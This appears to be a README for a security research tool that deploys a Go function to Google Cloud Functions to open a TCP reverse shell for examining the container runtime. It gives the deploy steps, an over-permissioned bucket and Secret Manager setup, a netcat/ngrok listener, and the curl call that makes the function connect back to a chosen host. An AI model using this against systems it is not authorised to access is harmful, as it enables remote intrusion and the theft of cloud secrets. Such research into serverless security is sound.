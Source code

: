 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install

# Optional: Create protected storage bucket that the function role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless deploy
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private storage bucket. The function role will have unnecessary permissions to access the bucket.

To upload a secret image to the bucket, run the following:

```bash
gcloud auth activate-service-account --key-file /PATH/TO/.gcloud/keyfile.json
gsutil cp /PATH/TO/assets/* "gs://cheetah-$BUCKET_SUFFIX"
```

You can also use Cheetah to demonstrate how a compromised function could be used to access the GCP Secret Manager. In order to set this up:

* Enable "Secret Manager API" in the [API dashboard](https://console.cloud.google.com/apis/dashboard).
* Recreate your service account and add the "Secret Manager Admin" role.
* As [the Serverless Framework always uses the App Engine default service account](https://github.com/serverless/serverless-google-cloudfunctions/issues/161), 
* Run the following:

```bash
gcloud config set project YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID # If you receive a warning like the following, you can just ignore it: WARNING: You do not appear to have access to project [...] or it does not exist.

gcloud secrets create cheetah-database-password --replication-policy automatic
echo -n 'RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu' | gcloud secrets versions add cheetah-database-password --data-file="-"
gcloud secrets add-iam-policy-binding cheetah-database-password --member serviceAccount:YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
export SERVERLESS_CHEETAH_BUCKET=$(gsutil ls gs://sls-cheetah-dev*)
gsutil rm $SERVERLESS_CHEETAH_BUCKET**
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
